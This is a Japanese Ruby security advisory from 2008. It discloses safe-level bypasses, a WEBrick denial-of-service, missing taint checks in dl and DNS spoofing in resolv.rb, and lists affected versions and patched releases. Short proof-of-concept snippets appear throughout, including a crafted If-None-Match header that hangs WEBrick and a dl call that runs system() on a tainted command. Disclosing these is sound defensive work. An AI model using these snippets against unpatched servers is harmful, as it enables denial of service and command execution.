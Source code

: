 ```yaml
---
layout: news_post
title: "Rubyに複数の脆弱性"
author: "Shugo Maeda"
lang: ja
---
```


Rubyに複数の脆弱性が発見されました。最新バージョンへのアップグレードを推奨します。

## 詳細

以下のような脆弱性が発見されました。

### セーフレベルの脆弱性

セーフレベルにいくつかの脆弱性が発見されました。

* untrace\_varがセーフレベル4で実行可能です。
  
      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }
      
      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAMEがセーフレベル4で変更可能です。
  
      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join
      
      $PROGRAM_NAME #=> "Hello, World!"

* 安全でないメソッドがセーフレベル1〜3で呼び出される可能性があります。
  
      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end
      
      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslogの操作がセーフレベル4で実行可能です。
  
      require "syslog"
      
      Syslog.open
      
      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

これらの脆弱性は山口慶太さんによって報告されました。

### WEBrickのDoS脆弱性

WEBrick::HTTP::DefaultFileHandlerには、
WEBrick::HTTPUtils.split\_header\_valueの正規表現のバックトラックのため、
リクエストの処理に指数関数的時間を要する欠陥があります。

攻撃可能なサーバの例:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

攻撃の例:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

このリクエストの処理は実質的には終了しません。

この脆弱性はChristian Neukirchenさんによって報告されました。

### dlの汚染チェックの欠如

dlはオブジェクトの汚染フラグをチェックしないため、攻撃者に危険な関数の実行を許してしまう可能性があります。

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

この脆弱性はsheepmanさんによって報告されました。

### resolv.rbのDNSスプーフィング脆弱性

resolv.rbには、リモートの攻撃者が偽造したDNS問い合わせの返答の受け入れを許す脆弱性があります。
この危険性は問い合わせのトランザクションID とソースポートのランダム化により低減できますが、resolv.rb ではどちらも行っていません。
修正により、それらのランダム化を行うようになります。

* 参考: [CVE-2008-1447][1]

この脆弱性は田中哲さんによって報告されました。

## 脆弱性の存在するバージョン

1.8系
: * 1\.8.5以前の全てのバージョン
  * 1\.8.6-p286以前の全てのバージョン
  * 1\.8.7-p71以前の全てのバージョン

1.9系
: * r18423以前の全てのリビジョン

## 各バージョンでの対応方法

各バージョンでの対応方法を以下に記載します。

1.8系
: 1\.8.6-p287または1.8.7-p72に更新してください。
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Subversionで最新版をチェックアウトしてください。
  
      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Rubyのパッケージを配布している各ベンダから、この脆弱性を修正した版のパッケージが提供されている場合もあります。詳細については各ベンダにお問い合わせください。

## クレジット

これらの脆弱性は山口慶太さん・Christian Neukirchenさん・sheepmanさん・田中哲さんにより Ruby Security
Teamに報告されました。

## 変更履歴

* 2007-08-08 12:24 +09:00 ruby 1.9のリビジョン番号を修正しました。
* 2007-08-11 11:31 +09:00 ruby 1.8のパッチレベルを修正しました。[Ruby 1.8.7-p72 /
  1.8.6-p287 のリリースアナウンス][4]を参照ください。

Posted by Shugo Maeda on 08 Aug 2008
{: .post-info}



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447 
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz 
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz 
[4]: http://www.ruby-lang.org/ja/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/ 

